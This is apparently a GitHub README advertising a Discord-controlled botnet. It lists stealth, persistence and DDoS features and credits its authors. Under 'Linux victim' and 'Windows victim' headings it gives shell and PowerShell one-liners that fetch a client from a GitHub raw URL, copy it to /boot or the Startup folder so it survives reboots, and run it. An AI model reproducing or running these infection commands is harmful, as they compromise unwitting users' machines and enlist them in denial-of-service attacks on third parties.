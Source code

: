 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/202854669-6d08daef-eae2-438b-a354-78b8accb7cb5.png)

https://discord.gg/vCdPTjD6rZ

# Credits:
Orig - batu.sh#9675

TG @udbnt

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Commands
![image](https://user-images.githubusercontent.com/104208624/203849281-6c1fb2f3-9f5d-4400-88b6-3b03a3636aae.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; apt-get install python3 -y; curl -O LClient "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 LClient; cp LClient /boot; ./LClient

# Windows victim
cd %temp% & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile WClient.exe & copy WClient.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & WClient.exe
